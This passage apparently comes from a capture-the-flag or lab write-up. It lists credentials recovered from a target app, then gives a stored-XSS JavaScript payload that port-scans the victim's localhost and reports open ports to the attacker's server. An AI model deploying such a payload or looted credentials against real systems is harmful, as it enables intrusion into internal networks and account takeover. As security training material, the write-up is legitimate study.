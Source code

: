 ![alt text](../../assets/images/token-of-hate/image-11.png)

We record them for future reference.

```text
['admin', 'dUnAyw92B7qD4OVIqWXd', 'admin'],
['Łukasz', 'dQnwTCpdCUGGqBQXedLd', 'user'],
['Þór', 'EYNlxMUjTbEDbNWSvwvQ', 'user'],
['Ægir', 'DXwgeMuQBAtCWPPQpJtv', 'user'],
['Çetin', 'FuLqqEAErWQsmTQQQhsb', 'user'],
['José', 'FuLqqEAErWQsmTQQQhsb', 'user'],
```

### Internal Resource Requests (SSRF)

We use the same Stored XSS to probe for internal server resources. We again modify `script.js` on our web server to run an internal port scan of the most common `http` ports. Remember to replace the IP `192.168.1.181` with that of your web server.

```javascript
const ports=[66,80,81,443,445,457,1080,1100,1241,1352,1433,1434,1521,1944,2301,3000,3128,3306,4000,4001,4002,4100,5000,5432,5800,5801,5802,6346,6347,7001,7002,8000,8080,8443,8888,30821];
function handleLoad(x,p) {
  let y=new XMLHttpRequest();
  y.open("GET",`http://192.168.1.181/ping?port=${p}`);
  y.send();
}
ports.forEach( (p,i) =>
  setTimeout( () => {
    let x=new XMLHttpRequest();
    x.open("GET",`http://localhost:${p}`);
    x.timeout=300;
    x.onload=()=>handleLoad(x,p);x.send();
  }, i*10)
);
```
